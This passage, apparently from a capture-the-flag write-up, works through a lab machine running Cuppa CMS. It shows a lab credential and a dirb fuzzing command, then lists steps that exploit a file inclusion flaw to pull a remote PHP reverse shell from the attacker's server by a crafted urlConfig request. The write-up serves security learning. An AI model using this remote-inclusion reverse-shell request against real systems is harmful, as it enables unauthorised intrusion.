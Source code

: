 ```ad-note
##### Credentials
---

`milesdyson` : )s{A&2Z=F^n_E.B`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121135937.png)

A bunch of files are inside of it, let's look for anything useful:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121140027.png)

Bunch of stuff too, but we found something interesting a `important.txt` file, let's get it and analyze it in our machine:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121140112.png)

We found a hidden directory: `/45kra24zxs28v3yd`, let's fuzz this directory to check if anything useful is hidding within it:

`dirb http://10.10.183.201/45kra24zxs28v3yd`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121140644.png)

```

# EXPLOITATION
---


We found a `/administrator` directory inside, let's take a look:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121140728.png)

This is running `Cuppa` if we use searchsploit we get this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121140810.png)

A [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] vulnerability is shown, let's read and exploit:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121142014.png)
So, in order to exploit this and get a reverse shell, we need to follow these steps:

```ad-summary
1. Download a php reverse shell.
2. Start a server using python.
3. Start our listener
4. Request the link: `http://$ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$our_ip:8000/shell.php`

### Output 
----

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121142636.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121142641.png)
We got our shell.

```
